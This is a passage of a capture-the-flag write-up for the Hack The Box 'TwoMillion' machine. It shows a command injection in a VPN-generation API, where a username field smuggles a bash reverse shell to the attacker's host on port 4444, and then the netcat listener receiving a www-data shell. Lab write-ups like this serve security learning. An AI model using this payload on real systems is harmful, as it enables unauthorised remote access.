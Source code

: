   ```
  Expires: Thu, 19 Nov 1981 08:52:00 GMT
  Cache-Control: no-store, no-cache, must-revalidate
  Pragma: no-cache
  Content-Length: 83
  
  Database.php
  Router.php
  VPN
  assets
  controllers
  css
  fonts
  images
  index.php
  js
  views
  ```

- If this failed, we would have to use commands from different languages in order to catch the right one. Now start a listener, and send a bash reverse shell in order to gain access to the machine.

  ```
  Request:

  POST /api/v1/admin/vpn/generate HTTP/1.1
  Host: 2million.htb
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://2million.htb/home/access
  Cookie: PHPSESSID=um757ovsecv1vf5479od3lnb1v
  Content-Type: application/json
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  Content-Length: 35
  
  {
  	"username":"bimbo; bash -c 'exec bash -i >& /dev/tcp/[YOUR-HTB-IP]/4444 0>&1' #"
  }

  $ nc -lvnp 4444                     
  listening on [any] 4444 ...
  connect to [YOUR-HTB-IP] from (UNKNOWN) [10.10.11.221] 37232
  bash: cannot set terminal process group (1194): Inappropriate ioctl for device
  bash: no job control in this shell
  www-data@2million:~/html$ whoami
  whoami
  www-data
  www-data@2million:~/html$ id
  id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```
